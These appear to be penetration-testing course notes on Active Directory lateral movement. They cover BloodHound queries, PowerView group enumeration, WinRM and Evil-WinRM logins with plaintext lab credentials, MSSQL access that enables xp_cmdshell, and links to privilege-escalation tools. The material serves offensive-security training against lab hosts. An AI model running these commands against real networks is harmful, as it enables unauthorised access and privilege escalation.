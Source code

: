 ## Lateral Movement
If we take over an account with local admin rights over a host, we can perform a Pass-the-Hash attack to authenticate via the SMB protocol.

- RDP
- PowerShell Remoting (WinRM)
- MSSQL Server

Use BloodHound to find:
- CanRDP
- CanPSRemote
- SQLAdmin

## Remote Desktop

**Enumerating the Remote Desktop Users Group
```
Import-Module .\PowerView.ps1
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound
BloodHound > Node Info > Local Admin Rights
- If we gain control over a user via LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound and check remote access rights under Execution Rights under Node Info


## WinRM

**Enumerating the Remote Management Group
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

**Raw BloodHound query
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Establishing WinRM Session from Windows
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
Exit-PSSession
```

**Installing Evil-WinRM
```
gem install evil-winrm
```

**Connecting to a Target with Evil-WinRM and Valid Credentials
```
evil-winrm -i 10.129.201.234 -u forend
```


## SQL Server Admin
```cypher - BloodHound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

**Enumerating MSSQL Instances with PowerUpSQL
```
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

**mssqlclient from Linux
```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
enable_xp_cmdshell
```

**Enumerating Rights on the System using xp_cmdshell
```
xp_cmdshell whoami /priv
```
SeImpersonatePrivilege tools:
- https://github.com/ohpe/juicy-potato
- https://github.com/itm4n/PrintSpoofer
- https://github.com/antonioCoco/RoguePotato
